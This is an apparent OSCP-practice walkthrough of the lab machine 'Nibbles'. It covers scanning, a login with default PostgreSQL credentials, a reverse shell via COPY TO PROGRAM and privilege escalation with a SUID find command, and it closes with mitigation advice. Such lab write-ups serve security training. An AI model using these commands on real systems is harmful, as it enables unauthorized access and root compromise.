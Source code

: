 ```yaml
---
title: Nibbles
date: 2025-04-14
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough] 
image: nibbles.avif
media_subpath: /assets/img/posts/2025-04-14-nibbles/
---
```

## Introduction
In this walkthrough we will be solving Proving Grounds Intermediate Linux box Nibbles. Let’s start ..

## Nmap

### TCP
Run a quick nmap scan to see open ports on our target:

```bash
sudo nmap -sV 192.168.153.47 --open
```

![image.png](image.png)

### UDP
Run UDP Scan to top 100 ports to not to miss any valuable service.

```bash
sudo nmap -sU -F 192.168.153.47
```

![image.png](image1.png)
No valuable UDP ports are identified.

### Full Nmap Scan

```bash
sudo nmap -p- 192.168.153.47 -A
```

Full Nmap scan returned a new port which is open and that we didn’t have from our previous scans:

![image.png](image2.png)

## Services

### Port 21

- Version **vsftpd 3.0.3** ,has one public vulnerability which DOS and not useful for us

```bash
searchsploit vsftpd 3.0.3
```

![image.png](image3.png)

- Cannot login neither with **null credentials** nor **anonymous access**.

### Port 5437

- **Version 11.3-11.9**, I did not find any public exploit for this version of PostgreSQL

```bash
searchsploit postgresql
```

![image.png](image4.png)

## Web

### Port 80

- Version **Apache 2.4.38** searching for public exploits we find something that catches our eyes but it is still not useful for this phase of assessment

```bash
searchsploit apache 2.4.38
```

![image.png](image5.png)

- **ffuf recursive fuzzing**
    
    ```bash
    ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://192.168.153.47/FUZZ -recursion -recursion-depth 1 -e .php,.html -v -fs 1272
    ```
    
    **I didn’t find anything**
    
    ![image.png](image6.png)
    
- **Directory fuzzing**
    
    ![image.png](image7.png)
    
    **Nothing found here either.**
    

## Exploitation

I checked logging in using some default credentials of PostgreSQL service, and **postgres:postgres** worked.

PostgreSQL authentication `psql -h 192.168.153.47 -U postgres -p 5437`

[PostgreSQL Pentesting](https://medium.com/@lordhorcrux_/ultimate-guide-postgresql-pentesting-989055d5551e)

![image.png](image8.png)

We are superuser so we can nearly everything we want on database

![image.png](image9.png)

we can get a reverse shell using copy method from PostgreSQL which is described [here](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767)

or we can do that in automated manner using this script [GitHub](https://github.com/squid22/PostgreSQL_RCE)

![image.png](image10.png)

**Now we are in!**

![image.png](image11.png)

Let’s make a shell more interactive using this command:

`python -c 'import pty; pty.spawn("/bin/bash")'`

![image.png](image12.png)

## Privilege Escalation

- [ ]  Situational awareness
- [ ]  Exposed Confidential Information
- [ ]  Password Authentication Abuse
- [ ]  Hunting Sensitive Information Hunting Sensitive Informaiton
- [ ]  Sudo 
- [ ]  SUID/SGID
- [ ]  Capabilities
- [ ]  Cron Jobs Abuse
- [ ]  Kernel Exploits

Checking for SUID/SGID binaries we find out that binary **find** SUID binary set. We can see the way of using it for privilege escalation in this site:

[GTFOBins](https://gtfobins.github.io/?source=post_page-----6560a2a51947---------------------------------------#)

```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
```

After that running **id** command we can see that our effective ID is root that means we can operate as root even though we are not root.

```
uid=106(postgres) gid=113(postgres) euid=0(root) groups=113(postgres),112(ssl-cert)
```

![image.png](image13.png)

So we are now root.

## Mitigation

- **Change Default Credentials**
    - Immediately change the default `postgres:postgres` credentials.
    - Use a strong, unique password for the `postgres` user.
- **Restrict Superuser Access**
    - Limit the number of superuser accounts in PostgreSQL.
    - Use the `pg_hba.conf` file to restrict access to trusted users and IPs.
- **Disable COPY to File for Untrusted Users**
    - Prevent privilege escalation via `COPY ... TO PROGRAM`.
    - Set `pg_read_server_files` and `pg_write_server_files` roles appropriately.
- **Limit Execution of SUID Binaries**
    - Regularly audit SUID binaries using `find / -perm -4000 -type f`.
    - Remove unnecessary SUID binaries to prevent privilege escalation.
